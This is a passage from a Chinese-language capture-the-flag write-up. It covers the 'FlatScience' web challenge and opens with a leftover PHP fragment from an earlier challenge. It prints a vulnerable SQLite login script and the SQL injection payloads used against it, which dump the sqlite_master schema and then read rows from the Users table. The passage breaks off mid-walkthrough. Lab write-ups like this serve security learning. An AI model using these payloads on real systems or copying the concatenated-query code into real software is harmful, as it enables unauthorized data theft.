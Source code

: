 ```php
echo strrev($_o);
?>
```
![](https://img-blog.csdnimg.cn/20200325210325224.png)
参考：[攻防世界 web 进阶 web2](https://blog.csdn.net/weixin_42499640/article/details/99102049)

## FlatScience
一脸懵逼，不知所云，查看wp，首先查看robots.txt
![](https://img-blog.csdnimg.cn/20200327183624241.png)
那么就访问试试，发现在login.php加'得到报错信息，数据库是sqlite
![](https://img-blog.csdnimg.cn/2020032718401142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
查看源码得到hint，那么加上`?debug`，得到源码
![](https://img-blog.csdnimg.cn/20200327184314241.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?> 
```
sql注入点位于query函数，sql反馈点位于setcookie函数。需要注意的是：password是和salt 'Salz!' 拼接之后经过一个sha1哈希才传入查询逻辑的，这也就意味着数据库中“password”表项存放的是密码加盐之后的哈希值。

通过查询其全局模式表sqlite_master（存放本数据库所有表、视图、索引、触发器等的定义）可找到用户表的sql定义。
`user='union select name,sql from sqlite_master --`(sqlite注释符是'- -')
![](https://img-blog.csdnimg.cn/20200327222450484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到Set-Cookie：
```sql
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```
那么就要得到id、name、password、hint：
`usr=%27 UNION SELECT id, name from Users limit 0,1--`
![](https://img-blog.csdnimg.cn/20200327223154573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)